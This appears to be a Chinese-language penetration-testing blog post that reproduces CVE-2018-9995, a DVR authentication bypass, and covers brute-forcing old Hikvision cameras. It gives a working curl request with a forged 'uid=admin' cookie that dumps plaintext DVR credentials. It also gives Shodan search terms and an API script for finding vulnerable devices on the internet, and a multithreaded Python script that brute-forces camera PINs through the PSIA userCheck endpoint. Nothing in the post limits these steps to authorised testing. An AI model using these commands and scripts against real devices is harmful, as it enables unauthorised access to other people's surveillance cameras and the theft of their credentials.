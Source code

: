 ```yaml
---
title: DVR登录绕过漏洞（CVE-2018-9995）
categories:
- 渗透
tags:
- CVE-2018-9995
updated: 2018-05-22
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。





## 1. 使用shodan查找

网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```http
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”(2019.11更新，第一个 /longin.rsp 已经查不到了，第二个参数勉强还可以查一点)

如图:

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

## 2. 使用命令攻击

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_03.png" />

## 3. 使用批量脚本验证

还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```http
https://github.com/ezelf/CVE-2018-9995_dvr_credentials
```

## 4. 关于shodan(201911更新)

最近的时候，在整理博客，本来想写一个自动化脚本来探测这个漏洞的，第一个是确实没有时间，第二个在shodan上看到了这个漏洞越来越少了，前端时间shodan做活动，买了一个会员，我们可以直接通过python安装shodan，然后通过api就可以实现调用：

```python
# coding:utf-8
import shodan

api = shodan.Shodan('api') # 这里面填写你的api的值
results=api.search('GNU rsp/1.0')    #搜索apache，返回 JSON格式的数据
# print(results)
# print("Results found:%s"%results['total'])
for result in results['matches']:
    print(result['ip_str'])     #打印出ip地址
```

通过上面的这个脚本，就可以过滤出可能存在CVE-2018-9995这个漏洞的ip地址，接下来可以根据上面那个大神给的脚本进行测试即可！

## 5. 海康部分老旧摄像头漏洞

但是这里存在一个问题：很多的摄像头都是安装在内网中的，所以很多的时候我们都在内网中进行测试，上面的那个漏洞不一定存在，这里我们以海康的为例，来说明一下如何使用爆破的方法来测试摄像头，目前市面上存在一些老旧的海康的摄像头依旧可以通过这种方法进行破解。

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_04.png" />

### 1.弱口令

首先第一步使用弱口令，比如：admin:12345,123456,admin等这样的去尝试，我们通过抓包可以得到该摄像头在密码传输使用的是base64加密的密文进行传输的。我们可以使用burpsuite中的工具去暴力破解，加载自己的字典去尝试。

### 2.访问 PSIA/Custom/SelfExt/userCheck

有些设备会对你口令试探作出限制，当你访问超过一定次数时就会封掉你的ip地址，在登录的时候，抓包可以发现向位于/PSIA/Custom/SelfExt/userCheck的端点发出XHR GET请求。用户名和密码包含在内。该请求将返回带有字段的XML文档，如果验证失败则返回401，如果成功则返回200。这里不会因为你爆破次数多而被ban掉，所以这里如果运气好的话，可以构造这个进行爆破处理，网上有大佬给出了代码，我稍微修改了一下，但是还存在缺点没有修改，就是在取得口令之后程序可能不会自动停掉。。。主要是因为太<s>懒</s>**忙**了:

```python
# -*- encoding: utf-8 -*-
from requests import get 
from base64 import b64encode 
import queue 
import threading

class DV_Test(threading.Thread):
    def __init__(self,q):
        super(DV_Test, self).__init__()
        self.q = q
        
    def run(self):
        while not self.q.empty():
            try:
                # print('test:',self.q.get())
                self.test(i=self.q.get())
            except:
                pass
        
    def test(self,i):
        url = 'http://172.16.82.238/PSIA/Custom/SelfExt/userCheck' 
        atoken = b64encode(b"admin:%i" % i) 
        auth = ("Basic %s" % atoken.decode("utf-8")) 
        r = get(url, headers={'Authorization': auth},timeout=3)
        if "401" not in r.text: 
            print(f"Found pin: {i} \n")
        else:
            print('failed:',i)

def main():
    q = queue.Queue()
    thread_counts = 10 # 定义你的线程数，不要太大了
    threads = []
    for i in range(10000, 999999): # 这里爆破的是从10000到999999之间的数字口令
        q.put(i)
    for j in range(thread_counts):
        threads.append(DV_Test(q))
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```

**但是注意！！！** **不要线程太大**  如果你要是想加上自己的字典，只要稍微修改一下代码就好了。

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你
